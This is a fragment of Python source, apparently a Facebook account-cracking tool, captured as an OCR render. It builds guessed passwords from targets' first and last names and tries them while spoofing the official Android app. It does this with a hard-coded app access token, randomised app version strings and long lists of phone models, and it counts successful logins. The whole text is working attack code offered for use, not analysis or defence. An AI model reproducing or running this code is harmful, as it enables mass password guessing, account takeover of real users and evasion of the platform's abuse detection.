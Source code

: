                 sys.stdout.write('\r\r\033[1;37m [USMII-RUNING ] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                fn = names.split(' ')[0]
                try:
                        ln = names.split(' ')[1]
                except:
                        ln = fn
                for pw in passlist:
                        pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                        fbbv = str(random.randint(111111111,999999999))
                        android_version = device['android_version']
                        model = device['model']
                        build = device['build']
                        fblc = device['fblc']
                        fbcr = sim_id
                        fbmf = device['fbmf']
                        fbbd = device['fbbd']
                        fbdv = device['fbdv']
                        fbsv = device['fbsv']
                        fbca = device['fbca']
                        fbdm = device['fbdm']
                        fbfw = '1'
                        fbrv = '0'
                        fban = 'FB4A'
                        fbpn = 'com.facebook.katana'
                        en = random.choice(['en_US','en_GB'])
                        motorola= random.choice(['M Bot 54', 'M Bot 60', 'M1', 'M3', 'M3s', 'M5 Lite', 'M6 Note', 'Magic', 'Maimang 5', 'Mate 10 Lite Dual SIM', 'Mate 20 X (China)', 'Mate 8', 'MB526', 'Medias X', 'MI 2', 'MI 3W', 'Mi 4 LTE', 'MI 4i', 'MI 5', 'MI 5X', 'Mi A1', 'Mi Max', 'Mi Max 2', 'Mi Mix 2', 'Milestone', 'Miracle', 'Moment (Sprint)', 'Monza', 'Motion Plus', 'Moto C', 'Moto E2 (4G LTE)', 'Moto E3 Power', 'Moto E4', 'Moto E4 Plus', 'Moto E5', 'Moto E5 Plus', 'Moto G', 'Moto G 2nd Gen', 'Moto G Play', 'Moto G3', 'Moto G3 Turbo Edition', 'Moto G4', 'Moto G5 Plus', 'Moto G5s', 'Moto G5s Plus', 'Moto G6', 'Moto X', 'Moto X 2nd Gen (AT&T)', 'Moto Z', 'Multipad 2 Ultra Duo 8.0 3G', 'MultiPhone 3350 Duo', 'MultiPhone 4044 Duo', 'MultiPhone 5504 DUO', 'Multiphone 7600 Duo', 'MX2', 'MX380', 'MX5'])
                        mmp = random.choice(['13 Pro','Black Shark','Black Shark 2','Black Shark 3','Black Shark 3S','Black Shark 4','Black Shark 4 Pro','Black Shark 5','Black Shark 5 Pro','Black Shark Helo','Civi','Civi 2','Hongmi','Hongmi 1S','Hongmi 2','Hongmi 2 3G','Hongmi 2 4G','Hongmi 4G','Hongmi Note 1TD','Mi Box 4','Mi Cancro','Mi CC 9','Mi CC 9 Pro','Mi CC 9e','Mi CC9','Mi Laser Projector 150','Mi Max','Mi Max 2','Mi Max 3','Mi MAX2','Mi Max3','Mi Mix','Mi Mix 2','Mi Mix 2S','Mi Mix 3','Mi Mix 3 5G','Mi Mix 4','Mi Mix Fold','Mi Note 10','Mi Note 10 Lite','Mi Note 10 Pro','Mi Note 11','Mi Note 2','Mi Note 3','Mi Note 8','Mi Note LTE','Mi Note Pro','Mi Note10','Mi Note5','Mi One','Mi One C1','Mi One Plus','Mi Pad','Mi Pad 2','Mi Pad 3','Mi Pad 4','Mi Pad 4 Plus','Mi Pad 5','Mi Pad 5 Pro','Mi Pad 5 Pro 5G','Mi Pad4','Mi Pad5','Mi Play','Mi XL','Mi5','MiTV 4A','MiTV 4A Pro','MiTV 4C','MiTV 4I','MiTV 4S','MiTV 4X','MiTV P1','MiTV Q1','MiTV Stick','MiTV Stick 4K','Mix Fold 2','MT6765 G Series','Note 12 Pro','Pad 6 Pro','Pocophone F1','Qin 1s+','Qin 2','Qin 2 Pro','Redmi 11','Redmi 12','Redmi 2','Redmi 3','Redmi 4','Redmi 5','Redmi 6','Redmi 7','Redmi 8','Redmi 9','Redmi A1','Redmi A2','Redmi A3','Redmi K30','Redmi K40','Redmi K50','Redmi K60','Redmi note','Redmi Note 1','Redmi Note 10Redmi Note 11','Redmi Note 12','Redmi Note 12T','Redmi Note 13','Redmi Note 15 Pro','Redmi Note 2','Redmi Note 3','Redmi Note 4','Redmi Note 5','Redmi Note 5 Pro','Redmi Note 6','Redmi Note 7','Redmi Note 7 Pro','Redmi Note 8 Pro','Redmi Note 8T','Redmi Note 9','Redmi Note 9 5G','Redmi Note 9 Pro','Redmi Note 9 Pro 5G','Redmi Note 9 Pro Max','Redmi Note 9S','Redmi Note 9T','Redmi Note 9T 5G','Redmi Note Prime','Redmi Note10','Redmi Note10T','Redmi Note7','Redmi Note8','Redmi Note8T','Redmi Note9','Redmi Pad','Redmi Pro','Redmi S2','Redmi X','Redmi Y1','Redmi Y1 Lite','Redmi Y2','Redmi Y3','Redmi 2', 'Redmi 3', 'Redmi 3S', 'Redmi 4', 'Redmi 4A', 'Redmi 4X', 'Redmi 5', 'Redmi 5 Plus', 'Redmi 5A', 'Redmi 6', 'Redmi Note', 'Redmi Note 3', 'Redmi Note 4', 'Redmi Note 4X', 'Redmi Note 5', 'Redmi Note 5 Pro', 'Redmi Note 5A', 'Redmi Note 5A Prime', 'Redmi S2', 'Redmi Y1', 'Redmi Y1 Lite', 'Redmi Y2', 'Rex 60', 'Rex 80', 'Rhyme', 'RM-560', 'Ruby'])
